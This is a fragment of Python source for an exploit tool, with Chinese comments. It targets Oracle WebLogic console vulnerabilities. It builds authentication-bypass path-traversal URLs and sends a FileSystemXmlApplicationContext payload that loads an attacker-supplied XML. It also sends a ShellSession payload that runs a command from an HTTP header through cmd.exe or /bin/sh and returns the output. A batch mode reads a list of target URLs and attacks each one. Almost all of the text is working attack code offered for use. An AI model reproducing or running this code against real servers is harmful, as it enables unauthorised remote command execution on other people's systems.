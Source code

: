 ```python
		command(url_cmd,headers_cmd,url)

	#功能2：weblogic 12.x命令执行。
	if args.url != None and args.xml != None:
		url_cmd = args.url + '/console/images/%252e%252e/console.portal'
		headers_12 = {
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Content-Type':'application/x-www-form-urlencoded'
		}

		post_12 = """_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22{}%22)""".format(args.xml)

		weblogic_12(url_cmd,post_12,headers_12)

	# 功能3：回显命令执行批量。
	if args.file != None and args.cmd != None:
		#print (1)
		for File  in open(args.file):
			File = File.strip()
			url_cmd = File + """/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("%5C%5CA").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')"""
			print ("[*] >>> Test:" + File)

			url = File
			headers_cmd = {
			'User-Agent':'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
			'cmd':args.cmd,
			'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Content-Type':'application/x-www-form-urlencoded'
			}


			#post_cmd = """_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.WorkAdapter+adapter+%3d+((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()%3b+java.lang.reflect.Field+field+%3d+adapter.getClass().getDeclaredField("connectionHandler")%3bfield.setAccessible(true)%3bObject+obj+%3d+field.get(adapter)%3bweblogic.servlet.internal.ServletRequestImpl+req+%3d+(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj)%3b+String+cmd+%3d+req.getHeader("cmd")%3bString[]+cmds+%3d+System.getProperty("os.name").toLowerCase().contains("window")+%3f+new+String[]{"cmd.exe",+"/c",+cmd}+%3a+new+String[]{"/bin/sh",+"-c",+cmd}%3bif(cmd+!%3d+null+){+String+result+%3d+new+java.util.Scanner(new+java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\\A").next()%3b+weblogic.servlet.internal.ServletResponseImpl+res+%3d+(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req)%3b+res.getServletOutputStream().writeStream(new+weblogic.xml.util.StringInputStream(result))%3bres.getServletOutputStream().flush()%3bres.getWriter().write("")%3b}')"""
			command(url_cmd,headers_cmd,url)


```